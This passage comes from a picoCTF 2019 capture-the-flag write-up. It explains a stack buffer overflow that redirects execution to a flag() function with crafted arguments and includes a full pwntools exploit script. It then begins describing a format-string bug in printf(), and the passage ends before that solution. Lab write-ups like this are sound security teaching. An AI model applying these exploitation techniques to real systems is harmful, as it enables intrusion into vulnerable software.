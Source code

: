 Therefore after overflowing and setting the return address to flag, we also need to write the arguments to the stack, in the order seen in the above diagram. We are given the source code for this challenge, and can see that arg1 = `0xdeadbeef` and arg2 = `0xc0ded00d`. We also need to put a fake return address to offset our input since the `flag()` function will expect a value to be there when grabbing the arguments. Opening the binary in a disassembler can provide a clearer picture:

<br>
![dissasm-args](/assets/images/pico2019/overflow2-args.jpg)

<br>
The program gets the args from ebp+8 since it expects the return address to be at ebp+4. It doesn't matter what value we put for this fake return address since we will get the flag by the time the function returns. In the example exploit file I chose to use 'AAAA'

The rest of the problem is the same as the previous one- we can get the address of the flag function and amount to overflow by looking at the disassembly or from `objdump`

<br>
The final exploit script looks like this:
```python
from pwn import *

p = process('./overflow2')
win = 0x80485e6

payload = fit({
	(0xb8+4):p32(win),
	(0xb8+8):'AAAA',
	(0xb8+12):p32(0xdeadbeef),
	(0xb8+16):p32(0xc0ded00d)
})

p.recvuntil(':')
p.sendline(payload)
p.interactive()
```
<br>
* * *
## stringzz

This is a fairly straightforward format string challenge. The vulnerability arises from an inappropriate usage of `printf()`, which is directly passed a buffer of user input to print.

If printf() is passed a format string, such as `%x` inside the string it will assume there is a corresponding argument that has also been passed to the function. In C, you would normally do something like `printf("%s", buffer)`. However, if you just call `printf("%x")`, it will compile and run just fine. What is happening here?

`printf()` will see the format specifier and expect an argument, so it will look on the stack where the argument _should_ be and use the value that's there.

So how do we leverage this vulnerability to solve the challenge? If we look at the source code, we find that the flag is written to a buffer supplied by a `malloc()` call. This buffer is a local variable in main(), so we can find it on the stack. Having a look at the disassembly confirms this:
